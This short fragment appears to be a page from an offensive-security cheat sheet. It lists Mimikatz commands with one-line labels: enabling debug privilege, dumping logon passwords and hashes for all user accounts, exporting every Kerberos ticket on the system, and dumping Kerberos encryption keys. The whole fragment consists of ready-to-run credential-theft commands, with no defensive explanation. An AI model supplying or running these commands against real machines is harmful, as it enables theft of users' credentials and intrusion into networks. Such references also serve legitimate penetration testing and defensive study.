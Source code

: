 

List hashes for all user accounts
	sekurlsa::logonPasswords full
Harvest all kerberos tickets on the system(```cmd-session
privilege::debug
```)
	sekurlsa::tickets /export
Dump all kerberos encryption keys
	sekurlsa::ekeys